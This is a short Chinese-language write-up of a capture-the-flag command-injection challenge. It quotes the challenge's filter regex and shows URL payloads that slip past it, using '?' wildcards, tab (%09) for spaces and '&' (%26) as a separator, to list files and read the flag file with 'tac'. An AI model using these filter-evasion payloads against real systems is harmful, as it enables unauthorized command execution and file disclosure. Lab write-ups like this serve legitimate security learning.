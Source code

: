 过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*/i"
```

把数字都过滤了，还把通配符`*`进行了过滤，我们可以改用`?`进行匹配，空格的话还是可以继续使用%09，分隔符还是用%26，它们不属于过滤的数字范畴

查看flag位置

```
?c=ls%26
```

![image-20240120125924028](image/image-20240120125924028.png)

构建命令

```
?c=tac%09fla?.php%26
```

得到flag
